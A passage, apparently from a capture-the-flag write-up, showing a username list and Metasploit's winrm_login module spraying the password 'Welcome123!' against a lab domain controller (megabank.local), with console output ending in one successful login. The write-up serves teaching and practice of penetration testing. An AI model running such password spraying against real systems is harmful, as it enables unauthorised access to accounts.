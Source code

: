 ```bash
steve
annette
annika
per
claude
melanie
zach
simon
naoki
```
With all the usernames saved to a file, we can use metasploit's winrm_login module to check if we have any valid credentials.
```python
msf5 > use auxiliary/scanner/winrm/winrm_login
msf5 auxiliary(scanner/winrm/winrm_login) > set USER_FILE users.txt
USER_FILE => users.txt
msf5 auxiliary(scanner/winrm/winrm_login) > set PASSWORD Welcome123!
PASSWORD => Welcome123!                                                                                                
msf5 auxiliary(scanner/winrm/winrm_login) > set RHOSTS 10.10.10.169
RHOSTS => 10.10.10.169
msf5 auxiliary(scanner/winrm/winrm_login) > set DOMAIN megabank.local
DOMAIN => megabank.local
msf5 auxiliary(scanner/winrm/winrm_login) > run

[-] 10.10.10.169:5985 - LOGIN FAILED: megabank.local\Administrator:Welcome123! (Incorrect: )
[-] 10.10.10.169:5985 - LOGIN FAILED: megabank.local\Guest:Welcome123! (Incorrect: )
[-] 10.10.10.169:5985 - LOGIN FAILED: megabank.local\krbtgt:Welcome123! (Incorrect: )
[-] 10.10.10.169:5985 - LOGIN FAILED: megabank.local\DefaultAccount:Welcome123! (Incorrect: )
[-] 10.10.10.169:5985 - LOGIN FAILED: megabank.local\ryan:Welcome123! (Incorrect: )
[-] 10.10.10.169:5985 - LOGIN FAILED: megabank.local\marko:Welcome123! (Incorrect: )
[-] 10.10.10.169:5985 - LOGIN FAILED: megabank.local\sunita:Welcome123! (Incorrect: )
[-] 10.10.10.169:5985 - LOGIN FAILED: megabank.local\abigail:Welcome123! (Incorrect: )
[-] 10.10.10.169:5985 - LOGIN FAILED: megabank.local\marcus:Welcome123! (Incorrect: )
[-] 10.10.10.169:5985 - LOGIN FAILED: megabank.local\sally:Welcome123! (Incorrect: )
[-] 10.10.10.169:5985 - LOGIN FAILED: megabank.local\fred:Welcome123! (Incorrect: )
[-] 10.10.10.169:5985 - LOGIN FAILED: megabank.local\angela:Welcome123! (Incorrect: )
[-] 10.10.10.169:5985 - LOGIN FAILED: megabank.local\felicia:Welcome123! (Incorrect: )
[-] 10.10.10.169:5985 - LOGIN FAILED: megabank.local\gustavo:Welcome123! (Incorrect: )
[-] 10.10.10.169:5985 - LOGIN FAILED: megabank.local\ulf:Welcome123! (Incorrect: )
[-] 10.10.10.169:5985 - LOGIN FAILED: megabank.local\stevie:Welcome123! (Incorrect: )
[-] 10.10.10.169:5985 - LOGIN FAILED: megabank.local\claire:Welcome123! (Incorrect: )
[-] 10.10.10.169:5985 - LOGIN FAILED: megabank.local\paulo:Welcome123! (Incorrect: )
[-] 10.10.10.169:5985 - LOGIN FAILED: megabank.local\steve:Welcome123! (Incorrect: )
[-] 10.10.10.169:5985 - LOGIN FAILED: megabank.local\annette:Welcome123! (Incorrect: )
[-] 10.10.10.169:5985 - LOGIN FAILED: megabank.local\annika:Welcome123! (Incorrect: )
[-] 10.10.10.169:5985 - LOGIN FAILED: megabank.local\per:Welcome123! (Incorrect: )
[-] 10.10.10.169:5985 - LOGIN FAILED: megabank.local\claude:Welcome123! (Incorrect: )
[+] 10.10.10.169:5985 - Login Successful: megabank.local\melanie:Welcome123!
```
We found a working combination!
